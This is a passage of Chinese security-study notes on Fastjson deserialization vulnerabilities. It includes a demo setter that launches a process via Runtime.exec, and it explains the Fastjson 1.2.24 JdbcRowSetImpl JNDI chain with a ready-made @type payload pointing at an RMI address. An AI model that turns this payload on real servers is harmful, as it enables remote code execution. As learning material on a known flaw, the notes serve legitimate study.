         // 注意这里有恶意的代码
        public void setUsername(String username) throws IOException {
            Runtime.getRuntime().exec("calc");
            this.username = username;
        }
    
        public void setPassword(String password) {
            this.password = password;
        }
    }
    ```

3. 测试类：
    ```java
    @Test
    public void testFastjson() {
        String json = "{\"@type\":\"com.endlessshw.fastjsonprinciple.bean.User\",\"username\":\"admin\",\"password\":\"123456\"}";
        JSONObject jsonObject = JSON.parseObject(json);
        System.out.println(jsonObject);
    }
    ```

## 3. Fastjson 反序列化漏洞 - 1.2.24

### 3.1 此反序列化非彼反序列化

1. Fastjson 的序列化并没有实现 Serializable 接口：
    ![image-20230420141714192](image-20230420141714192.png)
2. 此外，从 2.3 可知，常见的序列化实际上触发点是 `readObject()`，而 Fastjson 的触发点是满足条件的 getter/setter 方法。
3. 但是大体的思路是相同的，在以前的反序列化中，找到一个类，他的 setter 方法可控以触发恶意代码。

### 3.2 JDNI 链漏洞原理

1. JNDI 触发点：
    ![image-20230515102756560](image-20230515102756560.png)

2. 然后从 `getDataSourceName()` 入手，这个方法还有一个 `setDataSourceName()`，因此正好符合利用条件。

3. 开始向上找 `JdbcRowSetImpl#connect()` 的调用处，找到 `setAutoCommit()`：
    ![image-20230515104055230](image-20230515104055230.png)
    其实还有一个 `JdbcRowSetImpl#getDatabaseMetaData()`，不过这个方法最终会报错导致链中断。

4. 综上，通过 `setDataSourceName()` 赋值，然后通过 `setAutoCommit()` 来触发链：
    ```java
    // 有版本限制、依赖限制、而且需要出网
    String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\", \"DataSourceName\":\"rmi://127.0.0.1:1099/myRemote\", \"AutoCommit\":false}";
    JSONObject jsonObject = JSON.parseObject(payload);
    ```

5. 这个链实际上有很大的限制：
